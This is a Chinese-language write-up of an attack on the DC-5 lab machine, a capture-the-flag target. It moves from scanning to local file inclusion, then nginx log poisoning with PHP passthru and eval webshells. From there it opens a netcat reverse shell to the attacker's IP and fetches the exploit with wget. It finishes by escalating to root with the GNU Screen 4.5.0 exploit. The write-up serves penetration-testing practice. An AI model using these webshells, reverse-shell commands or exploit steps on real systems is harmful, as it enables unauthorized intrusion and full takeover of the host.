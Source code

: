 ```yaml
---
 title: DC-5靶机渗透实战
 date: 2020-02-05 15:33:26
 tags: 靶机渗透
 categories: 靶机渗透
---
```


### 靶机介绍

这次的靶机渗透实战是一个找寻靶机中的flag的过程，并以获得最终的flag为目标。
靶机下载地址:http://www.five86.com/dc-5.html

### 信息搜集
直接上nmap进行扫描
> nmap -sV -A -p- 172.16.0.17
```
Nmap scan report for localhost (172.16.0.17)
Host is up (0.00029s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.6.2
|_http-server-header: nginx/1.6.2
|_http-title: Welcome
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          41519/tcp6  status
|   100024  1          46625/udp6  status
|   100024  1          53363/udp   status
|_  100024  1          59243/tcp   status
59243/tcp open  status  1 (RPC #100024)
MAC Address: 00:0C:29:A7:4E:87 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.29 ms localhost (172.16.0.17)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.20 seconds
```
**可知开放111、80、59243端口，linux主机 猜测从web页面拿到shell**

<!--more-->

### 渗透实战
1. 直接先扫目录
> dirb http://172.16.0.17/ -X .php -S
```
URL_BASE: http://172.16.0.17/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Silent Mode
EXTENSIONS_LIST: (.php) | (.php) [NUM = 1]

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://172.16.0.17/ ----
+ http://172.16.0.17/about-us.php (CODE:200|SIZE:4292)
+ http://172.16.0.17/contact.php (CODE:200|SIZE:4282)
+ http://172.16.0.17/faq.php (CODE:200|SIZE:5645)
+ http://172.16.0.17/footer.php (CODE:200|SIZE:17)
+ http://172.16.0.17/index.php (CODE:200|SIZE:4025)
+ http://172.16.0.17/solutions.php (CODE:200|SIZE:4100)
+ http://172.16.0.17/thankyou.php (CODE:200|SIZE:852)

-----------------
```
- footer.php每次访问时间都不一样
![2020-2-5-16-50-56](https://raw.githubusercontent.com/bbkali/picbad/master/2020-2-5-16-50-56)
- file参数是可以通过目录字典burp爆破出来，但file常见直接手动就可试出
- 验证是否存在文件包含
![2020-2-5-16-51-16](https://raw.githubusercontent.com/bbkali/picbad/master/2020-2-5-16-51-16)

2. 反弹bash
- 查看nginx日志,发现会实时记录
![2020-2-5-17-15-12](https://raw.githubusercontent.com/bbkali/picbad/master/2020-2-5-17-15-12)
- 将phpinfo写入日志
> http://172.16.0.17/<?php phpinfo(); ?>
- 验证是可以执行的
![2020-2-5-17-17-23](https://raw.githubusercontent.com/bbkali/picbad/master/2020-2-5-17-17-23)
- 将mm写入日志,**passthru** - 执行外部程序并显示原始输出
> http://172.16.0.17/<?php passthru($_GET['hh']); ?>
- 直接nc反弹bash
> http://172.16.0.17/thankyou.php?file=/var/log/nginx/access.log&hh=nc%20-e%20/bin/bash%20172.16.0.10%202222
```
root@bbkali:~# nc -lvp 2222 
listening on [any] 2222 ...
connect to [172.16.0.10] from localhost [172.16.0.17] 41208
pwd
/var/www/html
```
- 用python建立交互模式
> python -c "import pty;pty.spawn('/bin/bash')"
- 查看权限发现screen-4.5.0特殊文件
```
find / -perm -u=s -type f 2>/dev/null
/bin/su
/bin/mount
/bin/umount
/bin/screen-4.5.0
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/at
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/sbin/exim4
/sbin/mount.nfs
```
3. 提权
- 查询screen-4.5.0的利用脚本,发现存在
```
root@bbkali:/tmp/dc5# searchsploit screen 4.5
--------------------------------------- ----------------------------------------
 Exploit Title                         |  Path
                                       | (/usr/share/exploitdb/)
--------------------------------------- ----------------------------------------
GNU Screen 4.5.0 - Local Privilege Esc | exploits/linux/local/41152.txt
GNU Screen 4.5.0 - Local Privilege Esc | exploits/linux/local/41154.sh
--------------------------------------- ----------------------------------------
Shellcodes: No Result
root@bbkali:/tmp/dc5# searchsploit -m 41154.sh
  Exploit: GNU Screen 4.5.0 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/41154
     Path: /usr/share/exploitdb/exploits/linux/local/41154.sh
File Type: Bourne-Again shell script, ASCII text executable, with CRLF line terminators

Copied to: /tmp/dc5/41154.sh
```
- 根据文件说明编译文件
- 在本地搭建共享服务
> python -m SimpleHTTPServer 8080
![2020-2-5-19-29-4](https://raw.githubusercontent.com/bbkali/picbad/master/2020-2-5-19-29-4)
- 通过wget下载exp,发现没有权限
> wget http://172.16.0.10:8080/run.sh
- 借助antsword使用wget功能,将新mm植入再用中国蚁剑连接
> echo '<?php @eval($_GET[cmd]);?>' >> /var/log/nginx/error.log
- 通过ftp进行上传下载,**特别注意要在tmp文件目录下才有ftp访问权限**
```
# 安装ftp
apt-get install vsftpd
# 启动服务
service vsftpd start
# 创建用户
useradd ftpuser
passwd ftpuser
mkdir /home/ftpuser
chmod 777 /home/ftpuser/
cp /tmp/dc5/* /home/ftpuser/

-----
# 连接ftp
ftp ip－address
　　输入用户名和密码
put  #发送文件
　　local-file: path
　　remote-file: path
get  #接收文件
　　local-file: path
　　remote-file: path
```
- 执行run.sh提权
```
www-data@dc-5:/tmp$ ls
ls
libhax.so  rootshell  run.sh
www-data@dc-5:/tmp$ chmod +x run.sh
chmod +x run.sh
www-data@dc-5:/tmp$ ./run.sh
./run.sh
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

# whoami
whoami
root
```
- 获取到最终flag
```
# cat thisistheflag.txt
cat thisistheflag.txt


888b    888 d8b                                                      888      888 888 888 
8888b   888 Y8P                                                      888      888 888 888 
88888b  888                                                          888      888 888 888 
888Y88b 888 888  .d8888b .d88b.       888  888  888  .d88b.  888d888 888  888 888 888 888 
888 Y88b888 888 d88P"   d8P  Y8b      888  888  888 d88""88b 888P"   888 .88P 888 888 888 
888  Y88888 888 888     88888888      888  888  888 888  888 888     888888K  Y8P Y8P Y8P 
888   Y8888 888 Y88b.   Y8b.          Y88b 888 d88P Y88..88P 888     888 "88b  "   "   "  
888    Y888 888  "Y8888P "Y8888        "Y8888888P"   "Y88P"  888     888  888 888 888 888 
                                                                                          
                                                                                          


Once again, a big thanks to all those who do these little challenges,
and especially all those who give me feedback - again, it's all greatly
appreciated.  :-)

I also want to send a big thanks to all those who find the vulnerabilities
and create the exploits that make these challenges possible.
```